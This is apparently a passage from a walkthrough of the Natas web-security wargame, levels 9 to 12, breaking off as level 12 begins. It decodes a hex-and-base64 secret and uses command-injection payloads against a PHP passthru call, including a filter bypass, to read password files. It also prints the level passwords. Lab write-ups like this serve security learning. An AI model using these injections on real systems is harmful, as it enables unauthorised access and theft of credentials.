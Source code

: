 ## 9

Looking at the source code, we see that the secret, when encoded must match:
`3d3d516343746d4d6d6c315669563362`. To find out the clear text secret,
we can reverse the encoding steps:

```php
<?php
> hex2bin("3d3d516343746d4d6d6c315669563362");
"==QcCtmMml1ViV3b"
> strrev("==QcCtmMml1ViV3b");
"b3ViV1lmMmtCcQ=="
> base64_decode("b3ViV1lmMmtCcQ==");
"oubWYf2kBq"
```

Submit this secret to see the password.

`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

## 10

In this level, user input is passed to the PHP
[passthru](https://secure.php.net/manual/en/function.passthru.php) function:

```php
passthru("grep -i $key dictionary.txt");
```

We can terminate the `grep` with a semicolon, run an arbitrary command, and
comment any code that comes after with:

```sh
; cat /etc/natas_webpass/natas10 #
```

Here, we return the contents of the password file with `cat`:

`s09byvi8880wqhbnonMFMW8byCojm8eA`

## 11

This level is the same as level [10](#10), but the characters `;`, `|` and `&`
are blocked by the server. We can utilise the `grep` to search for everything
in the password file:

```sh
.* /etc/natas_webpass/natas11 #
```

`SUIRtXqbB3tWzTOgTAX2t8UfMbYKrgp6`

## 12

In this level, we need to set a cookie, such that when it is base64 decoded and
XOR decrypted with an unkown key, it returns the JSON string:
